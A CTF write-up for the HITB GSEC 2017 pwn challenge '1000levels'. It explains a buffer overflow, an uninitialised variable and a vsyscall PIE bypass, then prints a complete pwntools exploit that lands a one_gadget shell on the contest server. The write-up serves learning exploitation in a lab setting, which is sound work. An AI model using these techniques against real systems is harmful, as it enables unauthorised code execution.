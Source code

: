 ```yaml
---
layout: post
title: "[HITB GSEC Singapore 2017] [Pwn] 1000levels"
---
```


### Description

It's more diffcult.

nc 47.74.147.103 20001

[Download Attachments](https://hitb.xctf.org.cn/media/task/498a3f10-8976-4733-8bdb-30d6f9d9fdad.gz)

### Analysis

Firstly, I check this file 

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

This program have some functions :

1. Go
2. Hint
3. Give up

After open file in IDA. It's easy to see the first vuln : **bof**

```C
for ( i = read(0, &buf, 1024uLL); i & 7; ++i )
        *(&buf + i) = 0;
```

With this vuln, you can ret to anywhere. But `PIE` enabled, so you can't ret to any addr in program to leak stack or libc.

Suddenly, i remember a trick to bypass this `PIE`. Using `vsyscall`. The addr of `vsyscall` static in kernel. It just has some gadget to ret to the next addr in stack. If the next addr is in libc , You can overwrite some byte to return to addr you want in libc. But the line `*(&buf + i) = 0;` prevent you to do it.

I was stuck at this for a long time ... 

Then my bro in my team told me that i should debug more carefully at the step input number.

```C

 puts("How many levels?");
  v2 = read_num();
  if ( v2 > 0 )
    v5 = v2;
  else
    puts("Coward");
  puts("Any more?");
  v3 = read_num();
  v5 = v5 + v3;

```

if `v2 <=0` then `v5` **uninitialized** . Actually,  I had seen this vuln before, but i have no idea to do with it. Then i realized i haven't used the function `Hint` yet.

```C

if ( show_hint )
  {
    sprintf(&v1, "Hint: %p\n", &system, &system);
  }

```

This case never come true 'cause you can't change the value of `show_hint`. But after run this function, the libc function `system` will be in stack ! And more magicly is it's in the addr of `v5`. So everything will easy now.

### My exploit scenario : 

1. Run `Hint` 
2. Run `Go`
   - Input `<=0` number at first time 
   - Input the distance from `system` addr to the `one_gadget` addr in libc (cause `v5 = v5 + v3` )
   - Pass some levels to come nearly `v5` addr
   - Use **bof** vuln and vsyscall to ret to `v5` addr
   - Get shell and cat flag !!!

After debugging and calculating,i realized that after pass **997** levels, `rsp` will be near  `v5` address.



### Exploit code : 

```python
from pwn import *
vsyscall=0xffffffffff600000
one_gadget=0xf0274 # this offset conditions fit to this program

libc=ELF('libc.so.6')

def main(argv):
	if len(argv)<2:
		r=process('./1000levels')
	else:
		r=remote('47.74.147.103',20001)
	#pause()
	# Hint
	r.recvuntil('Choice:')
	r.sendline('2')

	# Go
	r.recvuntil('Choice:')
	r.sendline('1')

	r.recvuntil('levels?')
	r.sendline('-1')
	r.recvuntil('more?')
	to_one_gadget=one_gadget-libc.symbols['system']
	r.sendline(str(to_one_gadget))

	log.info('Calculating ... ')
	for i in xrange(997):
		r.recvuntil(': ')
		data=r.recvuntil(' =')
		#print data
		d=eval(data[:len(data)-1])
		r.recvuntil('Answer:')
		r.sendline(str(d))
	log.info('Done')
	#pause()
	r.recvuntil('Answer:')
	pl=""
	pl+="0"*56+p64(vsyscall)*23
	r.send(pl)
	
	r.interactive()

main(sys.argv)

```

![aa](http://i.imgur.com/3yFOeED.png)



I can't solve this challenge in the contest, and my team have no pwn : (. But at least, i learned many things from this challenge and the contest. 

Thank you **Peternguyen** for the hint and my teammate **QD** .

Congratz the HITB GSEC CTF runner-up **Injocker10K** from my team !



